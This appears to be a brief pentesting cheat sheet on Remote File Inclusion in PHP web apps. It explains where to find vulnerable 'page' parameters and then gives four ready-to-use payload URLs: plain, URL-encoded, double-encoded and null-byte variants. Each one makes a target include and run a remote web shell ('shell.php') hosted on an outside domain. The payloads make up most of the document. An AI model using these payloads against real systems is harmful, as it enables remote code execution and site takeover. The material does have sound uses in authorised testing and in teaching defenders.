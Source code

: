 ## Remote File Inclusion (RFI)

## Introduction
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts.

## Where to find
- Any endpoint that includes a file from a web server. For example, `/index.php?page=index.html`

## How to exploit
1. Basic payload
```
http://example.com/index.php?page=http://daffa.info/shell.php
```

2. URL encoding
```
http://example.com/index.php?page=http%3A%2F%2Fdaffa.info%2Fshell.php
```

3. Double encoding
```
http://example.com/index.php?page=http%253A%252F%252Fdaffa.info%252Fshell.php
```

4. Using Null Byte (%00)
```
http://example.com/index.php?page=http://daffa.info/shell.php%00
```

## References
* [payloadbox](https://github.com/payloadbox/rfi-lfi-payload-list)
